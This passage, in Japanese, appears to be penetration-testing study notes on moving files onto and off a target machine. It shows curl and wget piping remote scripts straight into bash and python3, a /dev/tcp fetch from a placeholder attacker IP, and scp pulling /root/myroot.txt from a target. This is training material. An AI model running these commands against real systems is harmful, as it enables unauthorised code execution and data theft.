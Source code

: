 ##### ターゲット側
curlによるファイルレスダウンロード
```shell-session
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

wgetによるファイルレスダウンロード
```shell-session
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

#### Bashでのダウンロード(/dev/tcp)
- 一般的なファイル転送ツールが利用できない状況もある
- Bash バージョン 2.04 以降がインストールされている限り (--enable-net-redirections でコンパイル)、組み込みの /dev/TCP デバイスファイルは簡単なファイルダウンロードに使える

##### 攻撃者側
wgetとcURLの攻撃者側と同じ
```sh
python3 -m http.server 8080
```
##### ターゲット側
- ターゲットWebサーバーに接続する
```shell-session
exec 3<>/dev/tcp/<攻撃者のIP>/8080
```

- HTTP GETリクエスト
```shell-session
echo -e "GET /<ファイル名> HTTP/1.1\r\nHost: <攻撃者のIP>\r\nConnection: close\r\n\r\n" >&3
```

-  ファイルデータをファイルに書き起こす
```sh
cat <&3 > <ファイル名>
```
- 補足 : ファイルの中身をただターミナルに標準出力するだけ
```shell-session
cat <&3
```

#### SSHダウンロード
- SSHにはデフォルトでSCPがついてるから、SCPを使うこともできる
- `SCP`（セキュアコピー）は、2つのホスト間でファイルとディレクトリを安全にコピーできるコマンド
- ローカルサーバーからリモートサーバーに、リモートサーバーからローカルマシンにファイルをコピーできる
##### 攻撃者側
ターゲット側でsshを立ち上げてから、scpでファイルダウンロード
```sh
scp plaintext@192.168.49.128:/root/myroot.txt . 
```

| 部分                         | 説明                                                     |
| -------------------------- | ------------------------------------------------------ |
| `scp`                      | Secure Copy Protocol（SSHを利用した安全なファイル転送）                |
| `plaintext@192.168.49.128` | リモートサーバーのユーザー名 `plaintext` と IP アドレス `192.168.49.128`  |
| `/root/myroot.txt`         | リモートサーバー上のファイルのパス（この場合 `/root/` ディレクトリ内の `myroot.txt`） |
| `.`                        | ローカルのカレントディレクトリ（`.` = 現在の作業ディレクトリ）にファイルをダウンロード         |
